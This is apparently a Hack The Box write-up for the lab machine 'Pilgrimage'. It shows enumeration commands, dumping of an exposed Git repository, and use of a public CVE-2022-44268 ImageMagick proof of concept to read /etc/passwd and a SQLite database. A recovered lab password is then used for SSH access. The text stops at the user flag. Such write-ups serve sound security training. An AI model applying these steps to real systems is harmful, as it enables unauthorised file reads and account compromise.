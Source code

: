 # HTB_Pilgrimage

## Synopsis
Pilgrimage is a Linux-based machine rated as easy difficulty, centered around a web application that exposes a Git repository. Upon analyzing the retrieved source code and file structure, a vulnerable version of ImageMagick is discovered—allowing arbitrary file reads by injecting a specially crafted tEXt chunk into a PNG image. This flaw is exploited to extract a SQLite database containing plaintext credentials, which are then used to gain SSH access to the system. Further enumeration uncovers a root-owned Bash script that executes a compromised version of Binwalk. By crafting another malicious PNG, the CVE-2022-4510 vulnerability is exploited to achieve Remote Code Execution (RCE) as root.

---

## Skills Required
- Basics of Web enumeration  
- Basics of Linux enumeration  

## Skills Learned
- Rudimentary source code review  
- Basic scripting  
- Structure of PNG files  

---

## Enumeration

### Nmap
An initial Nmap scan reveals SSH and Nginx services running on their respective default ports.  
The domain `pilgrimage.htb` is revealed, which we add to our hosts file.

```bash
ports=$(nmap -p- --min-rate=1000 -T4 10.10.11.219 | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sC -sV 10.10.11.219
pgsql

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp   open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://pilgrimage.htb/
|_http-server-header: nginx/1.18.0


Feroxbuster
We run a feroxbuster scan to enumerate potentially exposed directories and endpoints.

feroxbuster --url http://pilgrimage.htb -w /usr/share/seclists/Discovery/Web-Content/common.txt
Found: 
http://pilgrimage.htb/.git/
http://pilgrimage.htb/.git/logs/
http://pilgrimage.htb/assets/
http://pilgrimage.htb/assets/css/
http://pilgrimage.htb/assets/images/
http://pilgrimage.htb/assets/js/
http://pilgrimage.htb/tmp/
http://pilgrimage.htb/vendor/
http://pilgrimage.htb/vendor/jquery/


Git Dumper
The scan reveals an exposed .git directory. We use git-dumper to dump and recreate the repository.

git-dumper http://pilgrimage.htb/ ./pilgrimage_source

[+] Fetching http://pilgrimage.htb/.git/objects/...
[+] Running git checkout .
Foothold
The repository contains a custom ImageMagick binary:

./magick --version
Version: ImageMagick 7.1.0-49 beta
This version is vulnerable to CVE-2022-44268 (Arbitrary File Read via PNG tEXt chunk).

We use the following PoC:

git clone https://github.com/voidz0r/CVE-2022-44268.git
cd CVE-2022-44268
cargo run "/etc/passwd"
Identifying the Malicious PNG

identify -verbose image.png

png:text: 1 tEXt/zTXt/iTXt chunks were found
profile: /etc/passwd
After uploading the image and retrieving the modified version:


identify -verbose 64f59dc103cbb.png

Raw profile type:
726f6f743a783a30...
Extracting Data with Python
We decode the hex-encoded data from the image:

python3 -c 'print(bytes.fromhex("726f6f743a783a30..."))'

root:x:0:0:root:/root:/bin/bash
emily:x:1000:1000:emily:/home/emily:/bin/bash
...
SQLite DB Extraction
From the downloaded repo we find:

$db = new PDO('sqlite:/var/db/pilgrimage');
We exploit again, this time targeting the SQLite DB path:

cargo run "/var/db/pilgrimage"
Convert the hex data into an SQLite file:

with open("hex", "rb") as f:
    data = bytes.fromhex(f.read().decode())
with open("sql.db", "wb") as f:
    f.write(data)
Verify it's a valid DB:

file sql.db
pgsql

sql.db: SQLite 3.x database
Accessing Credentials


sqlite3 sql.db
sql

.tables
images  users

SELECT * FROM users;

emily|abigchonkyboi123
SSH Access

ssh emily@pilgrimage.htb

Linux pilgrimage 5.10.0-23-amd64

emily@pilgrimage:~$ id
uid=1000(emily) gid=1000(emily) groups=1000(emily)
User flag can be found in /home/emily/user.txt
